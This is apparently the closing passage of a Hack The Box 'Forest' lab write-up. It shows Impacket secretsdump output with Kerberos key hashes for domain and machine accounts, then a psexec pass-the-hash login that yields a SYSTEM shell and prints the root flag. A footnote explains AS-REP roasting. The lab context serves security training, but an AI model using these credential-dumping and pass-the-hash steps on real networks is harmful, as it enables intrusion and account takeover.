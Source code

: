 ```shell
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
test123:aes256-cts-hmac-sha1-96:4d5f9a5a67552c420bd3c1fee1f53645f38ddb7f00a0f72a267d33f9e5098c66
test123:aes128-cts-hmac-sha1-96:18eabb2c6602bc05cbdb5835a2bf79cd
test123:des-cbc-md5:32f4b5f49b624592
FOREST$:aes256-cts-hmac-sha1-96:af8c0adf8f0da4e5719d4a898ec268fa4a17dd51a75706af91e2f0da42d1a742
FOREST$:aes128-cts-hmac-sha1-96:bf0a1ffd9bcc279593af5825a05f286e
FOREST$:des-cbc-md5:c8132fbf73c71fa8
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
```

> ┌──(kali㉿kali)-[~]
> └─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py 'test123:test123!@10.10.10.161'

```powershell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file HnnkFkEz.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service QuVl on 10.10.10.161.....
[*] Starting service QuVl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

> ┌──(kali㉿kali)-[~]
> └─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py "administrator"@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

```
C:\Windows\system32> type C:\users\administrator\desktop\root.txt
NTVmNTM5MmZhZDM1NmEwOTMyYmY2YWQyOGYwOWNjYjU=
```


[^3]: 对于未启用预身份验证的用户帐户（基本上禁用了 Kerberos 预身份验证），它容易受到 AS-REP Roasting 攻击。我们可以在不提供任何身份验证的情况下请求该用户的 Kerberos TGT 票证，并且我们将取回的 TGT 票证将使用该帐户的密码进行加密。所以我们可以离线破解哈希值。使用Impacket的GetNPUsers.py脚本，我们可以进行攻击
[^5]: https://github.com/BloodHoundAD/SharpHound/releases/tag/v2.4.1